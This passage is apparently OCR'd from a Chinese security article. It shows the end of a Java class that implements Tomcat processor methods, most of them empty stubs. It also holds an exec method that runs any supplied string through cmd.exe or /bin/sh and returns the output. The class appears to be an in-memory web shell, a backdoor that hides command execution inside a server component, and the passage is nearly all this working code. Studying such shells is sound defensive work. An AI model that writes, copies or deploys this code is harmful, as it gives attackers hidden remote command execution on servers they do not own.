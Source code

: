 ```plain
                r = handler.process(wrapper, status);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return r;
    }

    public byte[] exec(String c) {
        System.out.println(c);
        byte[] result = new byte[]{};
        try {
            String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", c} : new String[]{"/bin/sh", "-c", c};
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        } catch (Exception e) {
        }
        return result;
    }

    @Override
    public Object getGlobal() {
        return null;
    }

    @Override
    public Set getOpenSockets() {
        return null;
    }

    @Override
    public void release(SocketWrapperBase socketWrapper) {

    }

    @Override
    public void pause() {

    }

    @Override
    public void recycle() {

    }
}
```

## 0x 03 验证
